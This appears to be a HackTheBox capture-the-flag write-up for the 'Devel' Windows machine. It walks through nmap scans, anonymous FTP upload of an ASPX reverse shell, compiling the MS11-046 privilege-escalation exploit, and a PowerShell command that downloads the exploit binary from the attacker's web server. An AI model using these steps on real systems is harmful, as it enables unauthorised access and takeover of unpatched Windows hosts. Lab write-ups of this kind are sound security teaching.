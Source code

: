 ```yaml
---
title: "HackTheBox - Devel Writeup"
date: 2021-08-27
draft: false
tags: ["aspx-reverse-shell", "CVE-2011-1249"]
htb: "HacktheBox"
windows: "Windows"
---
```


## Enumeration

- scan top 1000 ports

```sql
nmap -sC -sV -oN nmap/initial 10.10.10.5
```

- the result

![1](1000.png)

- all ports scan

```sql
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.5
```

- the result

![1](all_ports.png)

### Open Ports
- We all know both Nmap scan shows us, just 2 open ports
- 21/FTP = Microsoft ftpd
- 80/HTTP = Microsoft IIS httpd 7.5

### FTP
- File Transfer Protocol [FTP] on this machine is open and allowed login as anonymous
- Let's connect to it

![1](ftp.png)

- Well, I can't find anything on it
- So, I'm thinking this FTP might have been connected to the other port [port 80].

### WebPage
- As we saw the image above. It has a `welcome.png` image.
- Let's put that on the `URL`

![1](welcome.png)

- COOL!

## Foothold/Gaining Access

### ASPX Reverse Shell
- Let's try to get the reverse shell 
- So, this is `Microsoft IIS` 
- with light googling. I've found the [aspx reverse shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
- Source
	- [Github - borjmz](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
<br>
- I'm gonna put the reverse shell on the FTP server
- Then, execute it with the `curl` command

![1](got_shell.png)

- I'm in as `iis apppool\web`

### systeminfo

- Let's enumerate this machine.
- First, I'm gonna run the `systeminfo` command
- the result

![1](systeminfo.png)

- OK! WOW!
- we're on Microsoft Windows 7 and it's a really old machine.
- Again. I'm gonna google around.

## Privilege Escalation

### MS11-046

![1](exploit-db.png)

- I've found this exploit
- Let's download it and compile the exploit <br>
-> don't worry, they got the compiling instructions

### Compiling Exploit
> <font color="yellow">Note: </font> If you got this response after try to compiling `command not found: i686-w64-mingw32-gcc` <br>
> Just run this command to install  it`apt install mingw-w64` 

- This is the command for compiling
```bash
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```
- After it is done, you got the binary in your directory called `MS11-046.exe`

### Transfer the Exploit
- Turns out, this machine has `PowerShell`
- I'm gonna host my file with a python webserver

```python
python3 -m http.server
```
- Let's transfer the exploit using PowerShell with this command.
- Source <br>
	-> [Jourdant - 3 ways to download files with PowerShell](https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell)

```powershell
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.15:8000/MS11-046.exe', 'c:\users\public\documents\lol.exe')"
```
- Then, execute it.

![1](exe.png)

- YES! I'm become `SYSTEM`

## User Flag

![1](user.png)

## Administrator Flag

![1](admin.png)

## Conclusion
I've learned a lot today. If you using File Transfer Protocol [FTP] make sure to configure it properly and avoid using anonymous access. Lastly, just update the system or even better use the new and up-to-date version of windows.

I have a fun time doing this machine and I hope you guys do too. Bye ;)